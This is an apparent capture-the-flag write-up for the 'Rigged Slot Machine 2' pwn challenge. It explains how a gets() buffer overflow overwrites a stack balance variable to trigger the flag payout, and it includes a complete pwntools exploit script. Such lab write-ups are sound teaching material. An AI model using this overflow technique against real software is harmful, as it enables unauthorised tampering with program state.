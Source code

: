 # 1337 Up | Rigged Slot Machine 2 - PWN (100)

This challenge involved exploiting a buffer overflow vulnerability to overwrite values on the stack.
One of these values is your current balance.
By exploiting the buffer overflow vulnerability, you can set the balance to `1337420` and get the flag.

## Initial Analysis
Looking at the `main` function, there is a call to `enter_name` which has a buffer overflow vulnerability.

``` c
void enter_name(char *param_1) {
  puts("Enter your name:");
  gets(param_1);
  printf("Welcome, %s!\n",param_1);
  return;
}
```

`gets()` will read an unlimited amount of bytes till it hits a null byte.

Further into `main` there is a call to `play()`, after this call it checks to see the current user's balance

``` c
play(bet_amount, &current_balance);
if (current_balance == 1337420) {
    payout(&current_balance);
}
```

`play()` has a betting game which determines how much the player gets

``` c
rand_num = rand();
roll = rand_num % 1000;

if (iVar2 == 0) { modifier = 10; }
else if (iVar2 < 5) { modifier = 5; }
else if (iVar2 < 10) { modifier = 3; }
else if (iVar2 < 0xf) { modifier = 2; }
else if (iVar2 < 0x1e) { modifier = 1; }
else { modifier = 0; }

winnings = (bet_amount * modifier) - bet_amount;
if (winnings == 0) {
    puts("No win, no loss this time.");
} else if (winnings < 0) {
    printf("You lost $%d.\n", winnings);
} else {
    printf("You won $%d!\n", winnings);
}
*current_balance = *current_balance + winnings;
```

If the `current_balance` is `1337420`, then it will call `payout()` which prints the flag.

Summarizing this we have:
- buffer overflow which lets us modify the `current_balance`
- setting the `current_balance` to `1337420` calls `payout()` to print the flag

## Exploitation
Exploiting this buffer is pretty easy, the name buffer is located at `local_28`, and the current balance is at `local_14`. To overwrite into the current balance it would need `0x28-0x14=0x14` byte overwrite to then write a value into the buffer.

However we cant write `1337420` in the `current_balance` buffer because `play()` will be called first, which will change the value of `current_balance`. Since the most likely outcome is to lose money `roll < 0x1e`, we can bet one coin with the intent to lose it. This changes the value to `1337421` that we will need to write.

## Solve Script
``` python
from pwn import *

BINARY = './rigged_slot2'
HOST = ''
GDB_SCRIPT = ''

def play_game():
    proc = get_process() # set is_remote = False for local testing
    
    payload = b''.join([
      b'A'*0x14,
      p64(0x14684c+1), # Chance we will lose a coin, add one in case
    ])
    
    proc.sendlineafter(b'Enter your name:', payload)
    proc.sendlineafter(b': ', b'1')

    return proc

def main():
    while True: 
        proc = play_game()
        line = proc.recvline().strip().decode()
        if 'You lost $1.' == line:
            proc.recvuntil(b'You\'ve won the jackpot! Here is your flag: ')
            flag = proc.recvline().strip().decode()
            print(f'Flag: {flag}')
            break
             
    
# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```